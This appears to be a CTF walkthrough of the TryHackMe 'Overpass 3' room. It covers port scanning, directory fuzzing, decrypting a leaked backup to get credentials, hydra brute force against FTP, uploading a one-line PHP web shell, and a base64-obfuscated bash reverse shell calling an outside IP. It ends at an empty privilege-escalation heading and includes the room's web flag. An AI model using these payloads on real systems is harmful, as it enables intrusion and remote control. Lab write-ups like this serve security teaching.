## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3                                                                                                 
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.0 (protocol 2.0)                                                                                   
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDfSHQR3OtIeAUFx18phN/nfAIQ2uGHuJs0epoqF184E4Xr8fkjSFJHdA6GsVyGUjdlPqylT8Lpa+UhSSegb8sm1So8Nz42bthsftsOxMQ
Vb/tpQzMUfjcxQOiyVmgxfEqs2Zzdv6GtxwgZWhKHt7T369ejxnVrZhn0m6jzQNfRhVoQe/jC20RKvBf8l8s6/SusbZR5SFfsg71KyrSKOXOxs12GhXkdbP32K3sXVEpWgfCfmIZAc2ZxNtL5
uPCM4AOfjIFJHl1z9EX04ZjQ1rMzzOh9pD/b+W2mXt2nQGzRPnc8LyGDE0hFtw4+lBCoiH8zIt14S7dwbFFV1mWxbtZXVf7JhPiZDM2vBfqyowsDZ5oc2qyR+JEU4pqeVhRygs41isej/el19
G8+ehz4W07KR97eM2omB25JehO7E4tpX1l8Imjs1XjqhhVuGE2tru/p62SRQOKzRZ19MCIFPxleSLorrHq/uuKdvd8j6rm0A9BrCsiB6gmPfal6Kr55vlU=
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAPAji9Nkb2U9TeP47Pz7BEa943WGOeu5XrRrTV0+CS0eGfNQyZkK6ZICNdeov65c2NWFPF
sZTFjO8Sg+e2n/lM=
|   256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM/U6Td7C0nC8tiqS0Eejd+gQ3rjSyQW2DvcN0eoMFLS
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.37 ((centos))
|_http-title: Overpass Hosting
|_http-server-header: Apache/2.4.37 (centos)
| http-methods: 
|   Supported Methods: POST OPTIONS HEAD GET TRACE
|_  Potentially risky methods: TRACE 
Service Info: OS: Unix
```

I added `overpass3.thm` to my `/etc/hosts`

### ...

when we view the root page, we can see this



I fuzzed using `ffuf` to find hidden endpoints:
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting]
└─$ ffuf -u "http://overpass3.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://overpass3.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

backups                 [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 162ms]
index.html              [Status: 200, Size: 1770, Words: 443, Lines: 37, Duration: 168ms]
:: Progress: [4750/4750] :: Job [1/1] :: 248 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

we can see the endpoint `backups`.



I went to `http://overpass3.thm/backups/`, we can see the file `backup.zip`:



I downloaded the file and extracted it.
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting]                                                                                                       
└─$ unzip backup.zip -d backup/                                                                                                                  
Archive:  backup.zip                                                                                                                             
 extracting: backup/CustomerDetails.xlsx.gpg                                                                                                     
  inflating: backup/priv.key
```

we got 2 files, private PGP key and encrypted xslx file:
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]                                                                                                
└─$ file *                                                                                                                                       
CustomerDetails.xlsx.gpg: PGP RSA encrypted session key - keyid: 9E86A1C6 3FB96335 RSA (Encrypt or Sign) 2048b                                   
priv.key:                 PGP private key block 
```

So, I decrypted the file using the key:
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ gpg --import priv.key 
gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx     
gpg: encrypted with rsa2048 key, ID 9E86A1C63FB96335, created 2020-11-08 
      "Paradox <paradox@overpass.thm>"
gpg: Note: secret key 9E86A1C63FB96335 expired at Tue 08 Nov 2022 11:14:31 PM IST
```



We got the file `CustomerDetails.xlsx`.

I opened it using [https://jumpshare.com/s/Nd0MichOozQpF4Ga4tjP](https://jumpshare.com/s/Nd0MichOozQpF4Ga4tjP), online xslx viewer I found after googling.



I downloaded `csvkit`:
```bash
sudo apt install csvkit
```

and then use the util `in2csv` to convert from `xslx` to `csv`.
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ in2csv CustomerDetails.xlsx > CustomerDetails.csv     
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ cat CustomerDetails.csv 
Customer Name,Username,Password,Credit card number,CVC
Par. A. Doxx,paradox,ShibesAreGreat123,4111 1111 4555 1142,432
0day Montgomery,0day,OllieIsTheBestDog,5555 3412 4444 1115,642
Muir Land,muirlandoracle,A11D0gsAreAw3s0me,5103 2219 1119 9245,737
```



Then, I created `users.txt` and `passwords.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ cat CustomerDetails.csv | tail -n3 | cut -d ',' -f2 > users.txt
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ cat CustomerDetails.csv | tail -n3 | cut -d ',' -f3 > passwords.txt
```



I tried to brute force login to `ssh` and `ftp` using the credentials, and the `hydra` tool
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ hydra -L users.txt -P passwords.txt ssh://overpass3.thm                  
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-23 14:07:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://overpass3.thm:22/
[ERROR] target ssh://10.65.176.57:22/ does not support password authentication (method reply 36).
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting/backup]
└─$ hydra -L users.txt -P passwords.txt ftp://overpass3.thm
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-23 14:07:16
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://overpass3.thm:21/
[21][ftp] host: overpass3.thm   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-23 14:07:21
```



Okay, we got the next credentials for ftp:
```bash
paradox:ShibesAreGreat123
```

### Upload webshell to ftp service

I logged in to the ftp service, and noticed it looks like the root directory of the website:
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting]                                                    
└─$ ftp paradox@overpass3.thm # ShibesAreGreat123                                             
Connected to overpass3.thm.                    
220 (vsFTPd 3.0.3)                                                                            
331 Please specify the password.               
Password:                                                                                     
230 Login successful.                                                                         
Remote system type is UNIX.                                                                   
Using binary mode to transfer files.                                                          
ftp> ls                                                                                       
229 Entering Extended Passive Mode (|||46261|)                                                
150 Here comes the directory listing.                                                         
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups                               
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg                           
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html                            
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css                              
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg                          
226 Directory send OK.                                            
```

So, I created `webshell.php` and uploaded it:
```bash
┌──(agonen㉿kali)-[~/thm/Overpass3Hosting]
└─$ echo -e '<?php echo `$_GET[0]`; ?>' > webshell.php
```

and uploading + chmod:
```bash
ftp> put webshell.php                          
local: webshell.php remote: webshell.php                                                      
229 Entering Extended Passive Mode (|||44244|)                                                
150 Ok to send data.                           
100% |****************************************************************************************************|    26      273.01 KiB/s    00:00 ETA                                             
226 Transfer complete.                         
26 bytes sent in 00:00 (0.08 KiB/s)            
ftp> chmod 777 webshell.php                    
200 SITE CHMOD command ok.
```



Now, we can access this url and get `RCE`, for example, execute `id`:
```bash
http://overpass3.thm/webshell.php?0=id
```



I'll paste the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

and we got our reverse shell



we can grab the web flag:
```bash
bash-4.4$ cd ~
bash-4.4$ ls
error  icons  noindex  web.flag
bash-4.4$ cat web.flag 
thm{0ae72f7870c3687129f7a824194be09d}
```

### ....

we can change user to `paradox` using the password we already found:
```bash
bash-4.4$ su paradox # ShibesAreGreat123
Password:  
[paradox@ip-10-65-144-12 home]$ cd ~
```
### Privilege Escalation to Root


